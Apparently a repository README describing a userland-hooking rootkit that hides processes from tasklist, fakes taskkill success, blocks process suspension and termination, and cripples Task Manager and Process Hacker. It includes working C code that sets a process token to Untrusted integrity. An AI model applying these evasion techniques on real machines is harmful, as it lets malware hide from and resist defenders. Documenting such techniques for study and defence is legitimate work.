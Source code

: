 # Userland Hooking

Userland Hooking was done by injecting the compiled version of [`Support/hook.c`](Support/hook.c)
into each user process.

## taskkill

Taskkill was intercepted and made to return "SUCCESS" and exit with exit code
zero.

You'd notice this if you ran `tasklist /?`, it should return "SUCCESS", which is
not valid behavior.

## tasklist

Tasklist was intercepted and made to return a string constant. The returned results
were not real processes.

The string value in question:

```text
Image Name                     PID Session Name        Session#    Mem Usage
========================= ======== ================ =========== ============
System Idle Process              0 Services                   0          0 K
System                           4 Services                   0          0 K
smss.exe                         0 Services                   0          0 K
csrss.exe                        0 Console                    0          0 K
duck.exe                        -1 Services                   1          0 K
wininit.exe                      0 Services                   0          0 K
never_gonna                     10 Console                    1          0 K
give_you_up                     11 Console                    1          0 K
never_gonna                     12 Console                    1          0 K
let_you_down                    13 Console                    1          0 K
never_gonna                     14 Console                    1          0 K
run_around                      15 Console                    1          0 K
and_hurt_you                    16 Console                    1          0 K
never_gonna                     17 Console                    1          0 K
say_goodbye                     18 Console                    1          0 K
never_gonna                     19 Console                    1          0 K
see_you_cry                     20 Console                    1          0 K
```

## taskmgr

Task Manager was intercepted and a thread was started on runtime that removed
all permissions and set the Token Integrity level to "Untrusted" making it unable
to display or refresh process information.

```C
DWORD DoUntrust(void) {
    Sleep(500);
    HANDLE t;
    // Get Token for the current process.
    // 0x200A8 - TOKEN_READ | TOKEN_ADJUST_PRIVILEGES | TOKEN_ADJUST_DEFAULT | TOKEN_QUERY
    if (!OpenProcessToken(GetCurrentProcess(), 0x200A8, &t)) {
        return 0;
    }
    SID a;
    DWORD c = 32;
    // Create an untrusted SID
    // 0x41 - WinUntrustedLabelSid
    if (!CreateWellKnownSid(0x41, NULL, &a, &c)) {
        CloseHandle(t);
        return 0;
    }
    SID_AND_ATTRIBUTES b;
    b.Sid = &a;
    b.Attributes = 0x20; // SE_GROUP_INTEGRITY
    // Set the untrusted SID as the Token Group SID
    // 0x19 - TokenIntegrityLevel
    SetTokenInformation(t, 0x19, &b, c + 4);
    CloseHandle(t);
}
```

## Process Hacker

Similar to `taskmgr` this process had it permissions removed and it's Token
Integrity level to "Untrusted" making it unable to display or refresh process
information.

The one different factor is an additional check against the `FileInfo\FileDescription`
which would equal the same string, regardless of the name of the process. This allows
for matching the process even if it's renamed.

## Other

Other non-critical processes had the following API functions intercepted.

- NtSuspendThread: Prevents suspending any Thread.
- NtSuspendProcess: Prevents suspending any process.
- NtTerminateProcess: Prevents terminating any Process.
  - This was bypassed if the PID equals the current PID as `ExitProcess` uses
    this under the hood.
